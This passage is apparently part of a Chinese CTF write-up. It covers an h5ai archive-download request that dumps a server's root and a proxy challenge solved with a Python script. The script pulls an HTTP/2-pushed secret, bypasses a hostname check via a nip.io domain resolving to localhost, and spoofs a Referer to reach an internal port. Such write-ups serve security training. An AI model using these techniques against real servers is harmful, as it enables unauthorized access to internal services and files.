 查看 h5ai 的 php 文件，发现他有一个下载压缩包的功能，那么可以下载根目录的压缩包。POST 下面的网址即可：

```
http://202.38.93.111:10120/_h5ai/public/index.php?action=download&baseHref=&as=1.tar&type=shell-tar&hrefs=
```

## 超安全的代理服务器

页面上写着 **推送（PUSH）** 了最新的 **Secret**，搜索 http push，发现是 http2 的 feature。

可以用 Chrome dump 出 netlog，然后在里面找到 secret，但是每次操作都需要不少时间，很容易超时，不便于后续分析。

可以用 python 的 hyper 库来处理这些 http2 数据（代码见后面）。

得到合法的 secret 后，url 的限制可以使用 `www.ustc.edu.cn.x.x.x.x.nip.io:xx` 的方式绕过。然后发现端口实际应该是 8080。连上去之后，他还需要 Referer 的条件。

```python
from hyper import HTTP20Connection, tls
import ssl, socket


def get_secret():
	ssl_context = tls.init_context()
	ssl_context.check_hostname = False
	ssl_context.verify_mode = ssl.CERT_NONE

	c = HTTP20Connection('146.56.228.227:443', ssl_context=ssl_context, enable_push=True)
	c.request('GET', '/')
	resp = c.get_response()
	for x in c.get_pushes():
		r = x.get_response()
		s = r.read(1000)
		s = s[s.find(b'secret: ') + 8:]
		return s[:10].decode()


hostname = '146.56.228.227'
context = ssl._create_unverified_context()
context.veryfy_mode = ssl.CERT_NONE

with socket.create_connection((hostname, 443)) as sock:
	with context.wrap_socket(sock, server_hostname=hostname) as ssock:
		print(ssock.version())
		ssock.send(b'CONNECT www.ustc.edu.cn.127.0.0.1.nip.io:8080 HTTP/1.1\r\n')
		ssock.send(b'Secret: %s\r\n' % get_secret().encode())
		ssock.send(b'\r\n')
		s = ssock.recv(1000)
		print(s.decode('utf-8'), end='')
		s = ssock.recv(1000) + ssock.recv(1000)
		print(s.decode('utf-8'), end='')
		ssock.send(b'GET / HTTP/1.1\r\n')
		ssock.send(b'Host: 127.0.0.1\r\n')
		ssock.send(b'Referer: 146.56.228.227\r\n')
		ssock.send(b'User-Agent: curl\r\n')
		ssock.send(b'\r\n')
		s = ssock.recv(1000)
		print(s.decode('utf-8'))
```
